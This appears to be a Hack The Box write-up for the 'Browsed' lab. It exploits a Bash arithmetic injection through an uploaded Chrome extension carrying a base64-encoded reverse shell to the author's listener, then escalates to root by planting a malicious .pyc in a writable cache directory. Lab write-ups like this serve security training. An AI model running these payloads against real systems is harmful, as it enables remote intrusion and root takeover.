


# Browsed - Medium

Target IP: **10.129.244.79**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.244.79 -v```

Output shows standard port 22 for ssh and port 80 running Nginx 1.24.0.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:c8:a4:ba:c5:ed:0b:13:ef:b7:e7:d7:ef:a2:9d:92 (ECDSA)
|_  256 53:ea:be:c7:07:05:9d:aa:9f:44:f8:bf:32:ed:5c:9a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Browsed
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to the website.

We are greeted by this front page. Reading over the website, it seems like they are a company that accepts chrome extensions packaged in zip files as uploads from users.


We can click on the upload extension button to get this page.


It seems like it runs the extension on Chrome and returns the output to us.

My first instinct is if we can package in some kind of reverse shell inside a zip, we might be able to have the server run it and get us back a connection.

Since the directory is ```/upload.php```, php files might execute.

I tried this and it didn't work.

I feel like there might be something in the error message. I uploaded one of the sample extensions, and after 10 seconds, a wall of logs are generated indicating that the extension failed to load with flying colors.

There's some interesting lines in the error.

```
DevTools listening on ws://127.0.0.1:35583/devtools/browser/c96201af-2606-4e51-bbb5-63bc26091fee
[2468:2487:0924/232439.269047:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://clients2.google.com/time/1/current?cup2key=8:MQrTONTMAAJ6JGt-X1jcycVRluYTD9cDhHR94OSOBF8&cup2hreq=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
[2468:2487:0924/232439.282508:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://browsedinternals.htb/
[2468:2487:0924/232439.283096:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://localhost/
```

It seems like the Chrome launch was making some connections to different endpoints. ```http://browsedinternals.htb``` is new, so lets add it to our ```/etc/hosts``` file and navigate to it.

It's Gitea.


Let's make an account and dig through it.

We have a repo made by ```larry``` on the explore page.



This is a repo for a flash application running on localhost port 5000.



The ```/routines/<rid>``` endpoint runs the ```routines.sh``` script.

I didn't know about this, but there is a vulnerability in the script in ```if [[ "$1" -eq 0 ]]; then```.
```-eq``` tells Bash to trigger arithmetic evaluation, and Bash arithmetic evaluates array subscript expressions, which accept command substitution. So basically, we can run anything if we pass in a random array containing a command using command substitution as our payload to the endpoint. Something like ```x[$(reverse shell code)]```. The problem is we can't reach this endpoint because it's only exposed internally. We need a way in.

It had to be the case that we had to use the upload mechanism somehow to progress with the lab.

I unzipped one of the sample zip files to get a better idea of the structure.

There's two files inside ```replaceimages.zip```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-etwumcfh0v]─[~/zips]
└──╼ [★]$ cat content.js
// use an image of your liking !
// const replacementImageUrl = "Your favourite image here"
const replacementImageUrl = "https://preview.redd.it/why-is-larry-so-evil-v0-ty3qlu4swjle1.jpeg?auto=webp&s=41fc3ee5bcec63e5cb4cc69757a812fb80143f47"

document.querySelectorAll('img').forEach(img => {
  img.src = replacementImageUrl;
  img.srcset = "";
});┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-etwumcfh0v]─[~/zips]
└──╼ [★]$ cat manifest.json 
{
  "manifest_version": 3,
  "name": "Replace Images",
  "version": "1.0.0",
  "description": "Replaces every image on a page with one from a URL.",
  "permissions": ["scripting"],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"],
      "run_at": "document_idle"
    }
  ]
}
```

By looks, it seems like ```manifest.json``` is a definition of what the extension will do and points to files to run, while ```content.js``` is the file that is being ran. In this case, ```content.js``` gets an image from a reddit link and replaces any images on the present website.

By our logic, we need to create an extension that will reach out to the vulnerable ```routines.sh``` script on the ```/routines/<our_payload>``` endpoint. If we upload this to the website, it should run it for us and get us back a shell.

Doing some research, we need to create a service worker that is pointed to by the manifest file.

Here is ```manifest.json```,

```
{
  "manifest_version": 3,
  "name": "Shell",
  "version": "1.0.0",
  "description": "Shell",
  "permissions": ["scripting"],
  "host_permissions": ["<all_urls>"],
  "background": {
    "service_worker": "service.js"
  }
}
```

and ```service.js```.

```
fetch("http://localhost:5000/routines/" + encodeURIComponent("a[$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xOTQvNDQ0NCAwPiYx | base64 -d | bash)]"));
```

Note that I base64 encoded the reverse shell code so that it goes through properly and have it execute after decoding on the remote machine.

Zipping this up and uploading to the website, we get a connection back.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-etwumcfh0v]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.244.79 40390
bash: cannot set terminal process group (1454): Inappropriate ioctl for device
bash: no job control in this shell
larry@browsed:~/markdownPreview$ whoami
whoami
larry
larry@browsed:~/markdownPreview$ 
```

Let's grab the private key in ```.ssh``` for a more stable shell connection.

We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` gives us a Python script we can run as ```root``` without a password.

```
larry@browsed:~$ sudo -l
Matching Defaults entries for larry on browsed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User larry may run the following commands on browsed:
    (root) NOPASSWD: /opt/extensiontool/extension_tool.py
```

Let's see what this script does.

```
larry@browsed:~$ sudo /opt/extensiontool/extension_tool.py -h
usage: extension_tool.py [-h] [--ext EXT] [--bump {major,minor,patch}] [--zip [ZIP]] [--clean]

Validate, bump version, and package a browser extension.

options:
  -h, --help            show this help message and exit
  --ext EXT             Which extension to load
  --bump {major,minor,patch}
                        Version bump type
  --zip [ZIP]           Output zip file name
  --clean               Clean up temporary files after packaging
larry@browsed:~$ sudo /opt/extensiontool/extension_tool.py --ext Fontify --zip hi.zip
[+] Manifest is valid.
[-] Skipping version bumping
[+] Extension packaged as /opt/extensiontool/temp/hi.zip
```

We can either use ```--bump```, ```--zip```, or ```--clean``` on an extension directory.

My first thought seeing the zipping mechanism is maybe we could place a symlink in an extension to zip.

This wouldn't work because even if we had used a symlink to write a file inside the zip, we wouldn't be able to unzip it because it would be owned by ```root```.

```
def package_extension(source_dir, output_file):
    temp_dir = '/opt/extensiontool/temp'
    if not os.path.exists(temp_dir):
        os.mkdir(temp_dir)
    output_file = os.path.basename(output_file)
    with zipfile.ZipFile(os.path.join(temp_dir,output_file), 'w', zipfile.ZIP_DEFLATED) as zipf:
        for foldername, subfolders, filenames in os.walk(source_dir):
            for filename in filenames:
                filepath = os.path.join(foldername, filename)
                arcname = os.path.relpath(filepath, source_dir)
                zipf.write(filepath, arcname)
    print(f"[+] Extension packaged as {temp_dir}/{output_file}")
```

I think the way to go is to hijack the Python libraries being loaded.

I navigated to the folder where Python libs are stored but it's empty.

```
larry@browsed:/usr/local/lib/python3.12/dist-packages$ ls -la
total 8
drwxr-xr-x 2 root root 4096 Jan  6  2026 .
drwxr-xr-x 3 root root 4096 Jan  6  2026 ..
```

Let's return back to the script. When we run the script, a writable ```__pycache__``` directory is created.

```
larry@browsed:/opt/extensiontool$ ls -la
total 28
drwxr-xr-x 5 root root 4096 Sep 25 01:05 .
drwxr-xr-x 4 root root 4096 Aug 17  2025 ..
drwxrwxr-x 5 root root 4096 Mar 23  2025 extensions
-rwxrwxr-x 1 root root 2739 Mar 27  2025 extension_tool.py
-rw-rw-r-- 1 root root 1245 Mar 23  2025 extension_utils.py
drwxrwxrwx 2 root root 4096 Sep 25 01:30 __pycache__
drwxr-xr-x 2 root root 4096 Sep 25 01:30 temp
```

Inside, there is a ```.pyc``` file.

```
larry@browsed:/opt/extensiontool/__pycache__$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Sep 25 01:41 .
drwxr-xr-x 5 root root 4096 Sep 25 01:05 ..
-rw-r--r-- 1 root root 1880 Sep 25 01:41 extension_utils.cpython-312.pyc
```

This is file holding compiled bytecode, which is loaded when modules are imported. We can see that ```extension_tool.py``` loads functions from ```extension_utils```.

```
from extension_utils import validate_manifest, clean_temp_files
```

Since the script imports these two functions from ```extension_utils```, we can create a module that contains a malicious version of these functions, having the same name but a different body (like a system call to spawn in a shell). We can then compile that module to get the ```.pyc``` file. then we would use our write permissions on the ```_pycache_``` directory to replace the legitimate ```.pyc``` file with the malicious one, so that the next time we call the script with ```sudo```, the malicious functions will be loaded and be ran as ```root```.

Additionally, ```.pyc``` files have a 16 byte header which contain metadata about the file that has to match Python's expectations or it won't run. For that, we can extract the first 16 bytes of our originally generated ```.pyc``` file and inject it into our malicious one.

Let's try it.

Here is our malicious module.

```
larry@browsed:/tmp$ cat pwn.py 
import os

def validate_manifest(path):
    os.system("/bin/bash")

def clean_temp_files(extension_dir):
    os.system("/bin/bash")
```

Compile it to a ```.pyc``` file,

```
larry@browsed:/tmp$ python3 -m py_compile pwn.py 
larry@browsed:/tmp$ cd __pycache__/
larry@browsed:/tmp/__pycache__$ ls
pwn.cpython-312.pyc
```

Copy the first 16 bytes of the legitimate file to the malicious module,

```
larry@browsed:/opt/extensiontool/__pycache__$ dd if=/opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc of=/tmp/__pycache__/pwn.cpython-312.pyc bs=1 count=16 conv=notrunc
16+0 records in
16+0 records out
16 bytes copied, 0.000194836 s, 82.1 kB/s
```


Verify that they have the same header,

```
larry@browsed:/opt/extensiontool/__pycache__$ xxd -l 16 extension_utils.cpython-312.pyc 
00000000: cb0d 0d0a 0000 0000 d3e8 df67 dd04 0000  ...........g....
larry@browsed:/opt/extensiontool/__pycache__$ xxd -l 16 /tmp/__pycache__/pwn.cpython-312.pyc 
00000000: cb0d 0d0a 0000 0000 d3e8 df67 dd04 0000  ...........g....
```

Rename our file,

```
larry@browsed:/tmp/__pycache__$ mv pwn.cpython-312.pyc extension_utils.cpython-312.pyc
```

Move it to our writable ```__pycache__``` directory,

```
larry@browsed:/tmp/__pycache__$ mv pwn.cpython-312.pyc /opt/extensiontool/__pycache__/
```

and finally, run the script with ```sudo```.

```
larry@browsed:/opt/extensiontool/__pycache__$ sudo /opt/extensiontool/extension_tool.py --ext Fontify --zip
root@browsed:/opt/extensiontool/__pycache__# whoami
root
```

We can get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
